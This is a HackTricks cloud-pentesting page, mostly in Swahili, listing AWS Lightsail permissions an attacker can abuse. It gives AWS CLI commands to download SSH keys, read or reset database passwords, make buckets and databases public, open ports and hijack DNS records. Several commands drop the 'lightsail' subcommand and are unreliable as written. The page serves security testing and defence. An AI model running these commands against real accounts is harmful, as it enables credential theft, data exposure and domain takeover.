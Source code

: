 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Kwa maelezo zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kwamba Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile msimbo, funguo za API na taarifa za database zinaweza kupatikana katika huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuunda funguo za SSH ili kufikia mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata akreditif za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuruhusu kubadilisha nenosiri la kufikia hifadhidata: 

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database si ya umma, unaweza pia kuifanya kuwa ya umma kwa kutumia ruhusa hizi na

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya database.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Kumbuka kwamba wito utafungia bandari yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa mifano kwa ndoo bila hati zozote za ziada.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa kuingia kwenye makundi yenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ruhusa ya kusoma kwenye makundi kwa akaunti yake ya AWS au hata kufanya makundi kuwa ya umma kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji wa ECR za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti kutoka ECR ya kibinafsi

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (uchukuaji wa subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwenye domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (kuchukua subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka kikoa kikuu kwenye anwani yake ya IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
